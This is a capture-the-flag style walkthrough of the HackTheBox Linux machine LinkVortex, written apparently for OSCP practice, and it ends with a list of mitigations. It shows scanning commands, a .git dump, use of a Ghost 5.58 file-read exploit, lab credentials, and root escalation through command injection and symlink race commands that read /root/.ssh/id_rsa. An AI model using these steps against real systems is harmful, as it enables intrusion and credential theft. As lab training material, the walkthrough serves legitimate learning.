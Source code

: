 ```yaml
---
title: LinkVortex
date: 2025-06-22
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Linux, .git, git-dumper, Ghost-conf-file, arbitrary-file-read, unquoted-env-var, TOCTOU, double-symlinks] 
image: link.png
media_subpath: /assets/img/posts/2025-06-22-linkvortex/
---
```


## Introduction

In this walkthrough, I worked on an **easy Linux machine** from the HTB labs. I discovered a **subdomain** during enumeration and used `git-dumper` to extract the `.git` repository locally. Analyzing the repo revealed **credentials for a Ghost CMS instance**, which I used to log in. I then exploited an **arbitrary file read vulnerability** in Ghost to extract the application's config files, where I found valid **SSH credentials**. After gaining shell access, I identified **sudo privileges** for specific scripts. I escalated privileges to root by exploiting:

1. **Unquoted environment variables** in a root-executed script.
2. A **TOCTOU (Time-of-check to time-of-use)** race condition.
3. A **double symlink** vulnerability.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

<aside>
🚨

Run long gobuster scan

</aside>

## Services

### Port 22

## Web

### Port 80

Add domain to `/etc/hosts` .

```bash
**feroxbuster -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -C 403,404,400**
```

![image.png](image%201.png)

- `/ghost/`
    
    ![image.png](image%202.png)
    
- `/email/`

Checking `Network` tab I see the `Ghost 5.58`.

![image.png](image%203.png)

**Vhost Fuzzing**

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://linkvortex.htb/ -H 'Host: FUZZ.linkvortex.htb' -fs 230
```

![image.png](image%204.png)

```bash
gobuster dir -u http://dev.linkvortex.htb/ -w /usr/share/wordlists/dirb/common.txt -t 42 -b 400,403,404
```

![image.png](image%205.png)

## Exploitation

We are gonna use `git-dumper` to get `bare git repo`:

```bash
git-dumper http://dev.linkvortex.htb/ ./git_llot
```

```bash
git status
```

![image.png](image%206.png)

![image.png](image%207.png)

I found several passwords, and trying each one with `admin@linkvortex.htb` I found a hit with `OctopiFociPilfer45`:

![image.png](image%208.png)

I found the following exploit (Arbitrary File Read) for this version of application:

[Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028)

```bash
./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
```

![image.png](image%209.png)

I am gonna search for sensitive file location of `Ghost`.

Reading this [post](https://ghost.org/docs/config/#custom-configuration-files) and [this](https://github.com/docker-library/ghost/issues/73), I requested `/var/lib/ghost/config.production.json`.

```bash
/var/lib/ghost/config.production.json
```

![image.png](image%2010.png)

Using these credentials I could login with `ssh`.

## Privilege Escalation

Checking users I see:

```bash
cat /etc/passwd | grep sh$
```

![image.png](image%2011.png)

That means we don’t need to do lateral movement.

Checking sudo privileges I see:

![image.png](image%2012.png)

Checking content of file:

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

1. **Environment variables**
    
    I see that some variable are not enclosed in quotes that means we can perform command injection, I am gonna give a command for `CHECK_CONTENT` and then run a script.
    
    ```bash
    export CHECK_CONTENT=/bin/bash
    ln -s /home/bob/user.txt file.png
    ```
    
    ![image.png](image%2013.png)
    
2. **TOCTOU (Time-of-Check to Time-of-Use)**
    
    We can also perform `TOCTOU` attack as `$LINK` after it has been checked is moved to another directory we can run continuous command where `$LINK` is changing every time, and when the original file is checked and put in directory our command will run and change that file again( we can do that because we have write access to the directory)
    
    ![image.png](image%2014.png)
    
    ![image.png](image%2015.png)
    
    ```bash
    while true;do ln -sf /root/.ssh/id_rsa /var/quarantined/sshroot.png;done
    ```
    
    ![image.png](image%2016.png)
    
    ![image.png](image%2017.png)
    
3. **Double Symlinks**
    
    ```bash
     if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
        /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
        /usr/bin/unlink $LINK
      else
    ```
    
    Checking condition we see that check is not strict, we can use double symlink which does not contain `/etc/`, or `/root` in itself but still points to them.
    
    ![image.png](image%2018.png)
    
    Let’s make `$CHECK_CONTENT=true` so that it returns output.
    
    ![image.png](image%2019.png)
    

## Credentials

```bash
admin@linkvortex.htb:OctopiFociPilfer45
bob:fibber-talented-worth
```

## Mitigation

- Remove `.git` directories from publicly accessible paths or prevent access with `.htaccess` or server config.
- Secure sensitive configuration files using strict **file permissions**.
- Avoid using **hardcoded credentials** in applications or scripts.
- Sanitize and validate file access in applications to prevent **arbitrary file reads**.
- Use **quoted paths** in scripts, avoid using temporary files insecurely, and apply **secure coding** practices to prevent TOCTOU and symlink attacks.
- Regularly audit and restrict **sudoers entries** to minimize privilege escalation vectors.
